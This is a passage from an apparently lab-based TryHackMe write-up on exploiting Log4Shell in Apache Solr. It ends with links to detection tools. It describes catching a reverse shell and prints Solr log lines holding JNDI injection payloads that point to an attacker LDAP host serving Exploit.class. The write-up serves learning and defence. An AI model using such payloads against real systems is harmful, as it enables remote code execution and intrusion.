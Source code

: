 Then it redirect it to the HTTP server that performs a GET request for the file Exploit.class

![image](https://user-images.githubusercontent.com/79013612/148700947-ae44c840-516e-4202-85db-5bdef39564c3.png)

Finally, the Java code was executed on the target's machine and we got a reverse shell on the netcat listener

![image](https://user-images.githubusercontent.com/79013612/148700989-b77af205-18a0-4ec0-b753-be2e96b40fe0.png)

After stabilizing shell and escalating our privileges, we will look at **solr.log** inside /var/solr/logs. We see that **params** contains our payload as we expected

```bash
root@solar:/var/solr/logs# cat solr.log | tail -n 5
2022-01-09 18:54:10.502 INFO  (qtp1008315045-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.8.249.41:4444}} status=0 QTime=0
2022-01-09 20:56:35.306 INFO  (qtp1008315045-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.8.249.41:1389/Exploit}} status=0 QTime=0
2022-01-09 21:14:06.270 INFO  (qtp1008315045-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.8.249.41:1389/Exploit}} status=0 QTime=0
2022-01-09 21:15:29.288 INFO  (qtp1008315045-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.8.249.41:1389/Exploit}} status=0 QTime=0
2022-01-09 21:17:11.228 INFO  (qtp1008315045-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.8.249.41:1389/Exploit}} status=0 QTime=0
```

### 3- Log4shell Detection Methods

This TryHachMe room provides lot of resources and code snippets that helps detecting Log4j vulnerability:

    - https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes (local, based off hashes of log4j JAR files)
    - https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d (local, based off hashes of log4j CLASS files)
    - https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228 (listing of vulnerable JAR and CLASS hashes)
    - https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1 (local, hunting for vulnerable log4j packages in PowerShell)
    - https://github.com/darkarnium/CVE-2021-44228 (local, YARA rules)
    


